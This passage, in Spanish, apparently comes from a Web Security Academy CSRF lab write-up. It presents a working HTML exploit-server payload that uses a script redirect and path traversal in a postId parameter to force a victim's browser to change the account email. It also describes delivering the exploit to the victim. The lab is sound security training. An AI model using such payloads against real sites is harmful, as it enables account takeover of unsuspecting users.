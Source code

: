 En mi caso `prefiero crear los payload manualmente` así que nos dirigimos al `Exploit server` y nos `crafteamos` un `payload`

```
<html>
    <body>
        <script> 
            document.location = 'https://0abf000e03b6d56382bab34000cd00ca.web-security-academy.net/post/comment/confirmation?postId=8/../../my-account/change-email?email=testing%40gmail.com%26submit=1';
        </script>
    </body>
</html>
```

![](/assets/img/CSRF-Lab-8/image_15.png)

Si pulsamos en `View exploit` vemos como nos `cambia` el `email`, para `completar` el `laboratorio` debemos `pegar` el `payload` en el `Exploit server` y pulsar sobre `Delivery exploit to victim`. Debemos tener en cuenta que `dos usuarios no pueden tener el mismo email`, por lo tanto, `debemos cambiar nuestro email o cambiar el email en el payload que enviamos`

![](/assets/img/CSRF-Lab-8/image_16.png)
